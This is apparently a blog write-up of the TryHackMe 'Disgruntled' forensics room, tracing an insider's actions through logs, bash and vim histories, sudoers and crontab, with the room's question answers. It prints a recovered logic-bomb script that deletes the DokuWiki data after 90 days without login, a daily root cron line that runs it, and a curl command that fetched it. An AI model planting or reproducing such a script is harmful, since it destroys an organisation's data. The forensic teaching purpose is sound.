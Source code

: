 ```yaml
---
layout: post
title: THM CTF Disgruntled
tags: [THM, CTF, Linux, Forensics]
author: NonoHM
date: 2024-03-31 16:08:51
toc:
    sidebar: left
    toc-depth: 3
---
```


## Task 1 - Introduction

In this room, we will have to investigate into the CyberT's IT departement guy's machine to check if he has done anything malicious to CyberT's assets.

## Task 3 - Nothing suspicious... So far

To start with, we check information about the OS with `cat  /etc/os-release`.

``` sh
NAME="Ubuntu"
VERSION="18.04.5 LTS (Bionic Beaver)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04.5 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
```

We can see that this is a normal Ubuntu 18.04.5.

Then, we check what are the users on the machine in the `passwd` file.

``` sh
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
cybert:x:1001:1001::/home/cybert:/bin/bash
it-admin:x:1002:1002:,,,:/home/it-admin:/bin/bash
```

These three users are the only "normal" ones available on the system.

When we look into sudoers file, we can see *cybert* and *it-admin* have all privileges on the system.

``` sudoers
# User privilege specification
root    ALL=(ALL:ALL) ALL
cybert  ALL=(ALL:ALL) ALL
it-admin ALL=(ALL:ALL) ALL
```

Instructions gives us a hint to look if there is any installed package using privileged account. Thus, we will look for anyone who had used the `apt` command using `cat /var/log/auth.log* | grep -i apt`.

``` sh
Dec 28 06:19:01 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/apt install dokuwiki
```

We can see that user *cybert* has installed *dokuwiki*.

To know what DokuWiki is, it is an open-source wiki software that enables easy collaborative website content management through text files, without requiring a database backend.  

It looks like a normal package to install.

### Questions

**The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?**

*Answer: `/usr/bin/apt install dokuwiki`*

**What was the present working directory (PWD) when the previous command was run?**

*Answer: `/home/cybert`*

## Task 4 - Let’s see if you did anything bad

The instructions here says that IT was supposed to only install a service so we need to check if there is unrelated commands.

We can see it in the cybert's bash history using the command `cat /home/cybert/.bash_history`.

Here are the suspicious commands we could find:

``` sh
sudo adduser it-admin
sudo visudo
su it-admin
exit
sudo passwd root
su root
exit
su root
nano /etc/ssh/sshd_config 
sudo nano /etc/ssh/sshd_config 
```

It seems that the IT guy have added a new user named *it-admin* changed sudoers file, changed root password and sshd configuration.

We can see the sudoers file has been changed by user *cybert* on December 28 at 6:27 AM.

``` sh
Dec 22 07:58:24 ip-10-10-158-38 sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/sbin/visudo
Dec 28 06:27:34 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/visudo
```

When looking at the *it-admin*'s bash history with `cat /home/it-admin/.bash_history `, we are able to see a questionable script named *bomb.sh* downloaded by our friend.

``` sh
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
sudo vi bomb.sh
ls
rm bomb.sh
sudo nano /etc/crontab
exit
```

### Questions

**Which user was created after the package from the previous task was installed?**

*Answer: `it-admin`*

**A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)**

*Answer: `Dec 28 06:27:34`*

**A script file was opened using the "vi" text editor. What is the name of this file?**

*Answer: `bomb.sh`*

## Task 5 - Bomb has been planted. But when and where?

Here, we need to know where the script came from and what it contains.

From the previous history command, we saw that the command used to retrieve the script is `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`.

By checking vi history using `cat /home/it-admin/.viminfo`, we see that the file has been saved somewhere else at `/bin/os-update.sh`. This explains why the *bomb.sh* has been deleted.

``` vi
# Command Line History (newest to oldest):
:q!
|2,0,1672208992,,"q!"
:saveas /bin/os-update.sh
|2,0,1672208983,,"saveas /bin/os-update.sh"
```

Using `stat /bin/os-update`, we get information on when it has been last modified.

``` stat
Access: 2022-12-28 06:29:43.998004273 +0000
Modify: 2022-12-28 06:29:43.998004273 +0000
Change: 2022-12-28 06:29:43.998004273 +0000
```

Lastly, we need to know what this script does. In order to know that, we will check its content.

``` bash
# 2022-06-05 - Initial version
# 2022-10-11 - Fixed bug
# 2022-10-15 - Changed from 30 days to 90 days
OUTPUT=`last -n 1 it-admin -s "-90days" | head -n 1`
if [ -z "$OUTPUT" ]; then
        rm -r /var/lib/dokuwiki
        echo -e "I TOLD YOU YOU'LL REGRET THIS!!! GOOD RIDDANCE!!! HAHAHAHA\n-mistermeist3r
" > /goodbye.txt
fi
```

We are now able to understand what the script does. Firstly, it gets if the user it-admin connected wihtin 90 days. Then, if not, it will erase the dokuwiki site and write a vengeance message into *goodbye.txt*.
This is probably made to piss off the company if our friend got fired. 

### Questions

**What is the command used that created the file bomb.sh?**

*Answer: `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`*

**The file was renamed and moved to a different directory. What is the full path of this file now?**

*Answer: `/bin/os-update.sh`*

**When was the file from the previous question last modified? (Format: Month Day HH:MM)**

*Answer: `Dec 28 06:29`*

**What is the name of the file that will get created when the file from the first question executes?**

*Answer: `goodbye.txt`*

## Task 6 - Following the fuse

Now that we know how the script work, we need to know when it will be executed. We remember that our friend modified crontab file, so will check it with `cat /etc/crontab`.  

``` cron
0 8     * * *   root    /bin/os-update.sh
```

This script will be executed at 8 AM every day by root user.

### Question

**At what time will the malicious file trigger? (Format: HH:MM AM/PM)**

*Answer: `08:00 AM`*

## Task 7 - Conclusion

In summary, our investigation into the Disgruntled THM CTF scenario revealed suspicious actions by an insider in CyberT's IT department. By thoroughly examining user accounts, permissions (sudoers), logs, and command histories (bash and vim), we uncovered a hidden plan to harm the company's systems and found a malicious script intended to cause damage. This script would delete all the files of the dokuwiki if the user has not logged into this machine in the last 90 days.  
This scenario emphasizes the need for strong security measures and proactive threat detection.  

